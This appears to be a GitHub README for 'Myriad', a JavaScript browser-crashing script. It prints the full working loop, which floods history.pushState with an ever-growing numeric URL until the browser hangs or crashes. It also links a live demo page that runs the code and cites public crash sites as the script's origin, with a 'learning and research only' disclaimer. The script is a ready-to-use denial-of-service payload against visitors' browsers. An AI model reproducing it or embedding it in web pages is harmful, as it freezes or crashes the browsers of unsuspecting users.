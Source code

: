 # Myriad

Simple JS script that overloads the browser with a huge URL (Where it gets its name)

## Demo

Why GIFs when you can see it working live? Visit [this](https://maximousblk.github.io/myriad/) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## The url

You can see an example of the generated URL in [SAMPLE-URL.md](), its huge and note the pattern (123456789101112131415....)

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function, hang, or crash.

```javascript
var total = ""; //blank variable
for( var i = 0; i < 10000000; i++ ) { //increases the value of 'i' by 1 till it becomes 10000000
total = total + i.toString(); //adds the value of 'i' to total everytime it increases
history.pushState(0,0, total ); //sends the value of total to the url to load
} //The End XD
```

## Need for Myriad

No one would ever need it (To Say Nothing Of The Naughty Ones)

This script is in the mischievous websites like [crashsafari.com](https://crashsafari.com), [crashchrome.com](http://crashchrome.com), etc.

You better don't do so!

Original code taken from [crashsafari.com](http://crashsafari.com)

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
* No systems (hardware/software) were harmed during the making of this program/code

## License

This program/code is licensed under the [Unlicense](http://unlicense.org).
